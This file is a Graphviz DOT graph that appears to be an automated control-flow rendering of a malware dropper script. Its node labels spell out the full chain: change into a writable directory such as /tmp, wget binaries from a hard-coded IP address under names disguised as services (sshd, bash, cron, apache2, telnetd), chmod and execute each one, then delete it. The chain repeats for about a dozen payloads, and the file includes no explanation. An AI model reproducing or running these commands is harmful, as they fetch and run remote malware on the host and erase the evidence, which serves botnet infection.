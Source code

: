 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://198.175.127.110/DoPentpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x DoPentpd "];
12 -> 14 [label=";,"];
14 [label="./DoPentpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf DoPentpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://198.175.127.110/DoPesshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x DoPesshd "];
30 -> 32 [label=";,"];
32 [label="./DoPesshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf DoPesshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://198.175.127.110/DoPeopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x DoPeopenssh "];
48 -> 50 [label=";,"];
50 [label="./DoPeopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf DoPeopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://198.175.127.110/DoPebash "];
64 -> 66 [label=";,"];
66 [label="chmod +x DoPebash "];
66 -> 68 [label=";,"];
68 [label="./DoPebash "];
68 -> 70 [label=";,"];
70 [label="rm -rf DoPebash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://198.175.127.110/DoPetftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x DoPetftp "];
84 -> 86 [label=";,"];
86 [label="./DoPetftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf DoPetftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://198.175.127.110/DoPewget "];
100 -> 102 [label=";,"];
102 [label="chmod +x DoPewget "];
102 -> 104 [label=";,"];
104 [label="./DoPewget "];
104 -> 106 [label=";,"];
106 [label="rm -rf DoPewget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://198.175.127.110/DoPecron "];
118 -> 120 [label=";,"];
120 [label="chmod +x DoPecron "];
120 -> 122 [label=";,"];
122 [label="./DoPecron "];
122 -> 124 [label=";,"];
124 [label="rm -rf DoPecron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://198.175.127.110/DoPeftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x DoPeftp "];
138 -> 140 [label=";,"];
140 [label="./DoPeftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf DoPeftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://198.175.127.110/DoPepftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x DoPepftp "];
156 -> 158 [label=";,"];
158 [label="./DoPepftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf DoPepftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://198.175.127.110/DoPesh "];
172 -> 174 [label=";,"];
174 [label="chmod +x DoPesh "];
174 -> 176 [label=";,"];
176 [label="./DoPesh "];
176 -> 178 [label=";,"];
178 [label="rm -rf DoPesh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://198.175.127.110/DoPeshit "];
190 -> 192 [label=";,"];
192 [label="chmod +x DoPeshit "];
192 -> 194 [label=";,"];
194 [label="./DoPeshit "];
194 -> 196 [label=";,"];
196 [label="rm -rf DoPeshit "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://198.175.127.110/DoPeapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x DoPeapache2 "];
210 -> 212 [label=";,"];
212 [label="./DoPeapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf DoPeapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://198.175.127.110/DoPetelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x DoPetelnetd "];
228 -> 230 [label=";,"];
230 [label="./DoPetelnetd "];
230 -> 231 [label=";,"];
}
